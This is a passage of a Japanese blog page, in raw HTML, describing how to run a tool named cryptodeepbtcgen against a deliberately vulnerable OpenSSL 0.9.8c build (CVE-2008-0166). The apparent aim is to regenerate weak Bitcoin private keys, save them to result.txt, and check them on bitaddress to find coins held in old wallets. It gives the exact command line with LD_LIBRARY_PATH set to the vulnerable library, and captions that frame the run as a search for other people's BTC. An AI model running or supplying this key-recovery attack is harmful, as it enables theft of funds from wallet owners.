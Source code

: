#29  - unknownD1
#30  - unknownD2
#31  - unknownD3
#32  - unknownD4
#33  - unknownD5
#34  - unknownE0
#35  - unknownA0x
#36  - unknownA1x
#37  - unknownA2x
#38  - unknownA3x
#39  - unknownA4x
#40  - unknownB0x
#41  - unknownB1x
#42  - unknownB2x
#43  - unknownB3x
#44  - unknownC0x
#45  - unknownC1x
#46  - unknownC2x
#47  - unknownD0x
#48  - unknownD1x
#49  - unknownD2x
#50  - unknownD3x
#51  - unknownD4x
#52  - unknownD5x
#53  - unknownE0x
crypto &gt;
</code></pre>



<h2>cryptodeepbtcgen -n 32 -v 0 を実行します。</h2>



<pre class="wp-block-code"><code>LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -n 32 -v 0 &gt;&gt; result.txt
</code></pre>



<figure class="wp-block-image"><img src="https://habrastorage.org/r/w1560/getpro/habr/upload_files/f0b/894/bd8/f0b894bd8b5866ffcbb33be8842347f2.png" alt="cryptodeepbtcgen を実行する" title="cryptodeepbtcgen を実行する"/><figcaption class="wp-element-caption">cryptodeepbtcgen を実行する</figcaption></figure>



<p>すべてがファイルストレージに&nbsp;<code>Google Drive</code>&nbsp;テキストファイルとして&nbsp;保存されます<code>result.txt</code></p>



<figure class="wp-block-image"><img src="https://habrastorage.org/r/w1560/getpro/habr/upload_files/abb/8f1/8ea/abb8f18ea7575d6b967bbe083d984943.png" alt="重大な脆弱性 OpenSSL 0.9.8 CVE-2008-0166 がある以前のバージョンの Bitcoin Core で BTC コインを検索する"/></figure>



<h2>秘密鍵をチェック中！</h2>



<figure class="wp-block-image"><img src="https://habrastorage.org/r/w1560/getpro/habr/upload_files/a56/6c1/cd9/a566c1cd990cad3f07f356f0fd62e7d5.png" alt="bitaddress の Web サイトで秘密鍵を確認する" title="bitaddress の Web サイトで秘密鍵を確認する"/><figcaption class="wp-element-caption">bitaddress の Web サイトで秘密鍵を確認する</figcaption></figure>
